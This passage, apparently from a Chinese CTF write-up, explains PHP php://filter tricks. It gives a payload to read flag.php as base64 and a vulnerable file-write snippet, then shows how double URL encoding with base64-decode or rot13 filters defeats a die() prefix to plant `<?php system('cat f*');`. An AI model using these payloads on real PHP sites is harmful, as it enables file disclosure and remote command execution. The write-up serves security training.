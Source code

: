     我们可以利用 `php://filter` 伪协议来读取文件内容，需要注意的是，`php://filter` 伪协议如果不指定过滤器的话，默认会解析 PHP 代码，所以我们需要指定 `convert.base64-encode` 过滤器来对文件内容进行编码

    ```php
    php://filter/read=convert.base64-encode/resource=flag.php
    ```

    **rot13**

    ```php
    <?php
    if(isset($_GET['file'])){
        $file = $_GET['file'];
        $content = $_POST['content'];
        $file = str_replace("php", "???", $file);
        $file = str_replace("data", "???", $file);
        $file = str_replace(":", "???", $file);
        $file = str_replace(".", "???", $file);
        file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
        
    }else{
        highlight_file(__FILE__);
    }
    ```

    一个写文件的题，但是有过滤，不允许包含 `php` , `data` , `:` 和 `.` 但是在写入操作的时候，会把 `file` 参数进行 `urldecode`，所以我们可以两次 `urldecode` 来绕过过滤，然后只需要考虑如何绕过 `<?php die('大佬别秀了');?>` 中的 `die()` 即可

    我们可以尝试使用 Base64 绕过 `die()`，Base64 的编码范围是 `0-9` , `a-z` , `A-Z` , `+` 和 `/` ，其他字符会被忽略，去掉不支持的字符，只剩下了 `phpdie` 了，因为 Base64 解码是按照 4位 一组进行解码的，所以我们需要在最终编码出来的字符串中最前面添加两个字母，以达到 Base64 解码的规则

    ```php
    // 需要两次URL编码
    GET: ?file=php://filter/convert.base64-decode/resource=1.php
    // 需要base64编码，编码后最前面添加两个字母如：aa
    POST: content=<?php system('cat f*');
    ```

    另一种方法是使用 Rot13 编码

    ```php
    // 需要两次URL编码
    GET: ?file=php://filter/string.rot13/resource=1.php
    // 需要Rot13编码
    POST: content=<?php system('cat f*');
    ```

    Rot13 解码后写入的文件内容变为了

    ```php
    <?cuc qvr('大佬别秀了');?><?php system('cat f*');
    ```

    这样就可以绕过 `die()` 了

    **input**
